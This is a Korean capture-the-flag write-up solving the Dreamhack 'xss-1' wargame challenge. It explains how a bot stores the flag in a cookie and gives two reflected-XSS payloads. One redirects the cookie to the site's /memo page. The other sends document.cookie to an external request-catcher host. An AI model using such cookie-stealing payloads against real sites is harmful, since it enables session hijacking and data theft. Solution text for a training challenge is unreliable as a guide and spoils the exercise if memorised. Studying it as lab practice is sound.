 # xss-1 (28)

## 문제

여러 기능과 입력받은 URL을 확인하는 봇이 구현된 서비스입니다.
XSS 취약점을 이용해 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.

플래그 형식은 DH{…} 입니다.

https://dreamhack.io/wargame/challenges/28

## 풀이

FLAG 변수를 따라가 보면 /flag path의 POST method에서 값을 얻을 수 있다.

이 값을 read_url함수에서 cookie에 저장한 후, /vuln path에서 query parameter를 return한다.

방법 1.

/memo path를 보면 memo query값을 가져와서 text에 추가하고 접속하면 보여주게 된다.

따라서 /flag path의 query string에 [memo query에 cookie를 넣고 /memo로 이동하는] 스크립트를 추가해서 POST를 날리면 된다.

- POST 명령을 날릴 수 있도록 버튼이 준비되어 있다.
```
http://127.0.0.1:8000/vuln?param=<script>location.href="/memo?memo="+document.cookie</script>
```

- 실행 화면  
![image](https://github.com/GwangIl-Park/dreamhack-playground/assets/40749130/552786c0-816c-44e6-8ea0-7508daf2423f)

- /memo path에서 DH 확인 가능  
![image](https://github.com/GwangIl-Park/dreamhack-playground/assets/40749130/44778022-f630-4d6c-a4c4-de7848d4ce4b)

방법 2.

서버를 띄워놓고 location.href에 서버 url을 넣어준다.

```
http://127.0.0.1:8000/vuln?param=<script>location.href="https://ymupogv.request.dreamhack.games/?flag="+document.cookie</script>
```

- 서버는 dreamhack에서 제공하는 tool을 사용했다.
![image](https://github.com/GwangIl-Park/dreamhack-playground/assets/40749130/1dd25ca4-ea8c-4644-a747-581984083c39)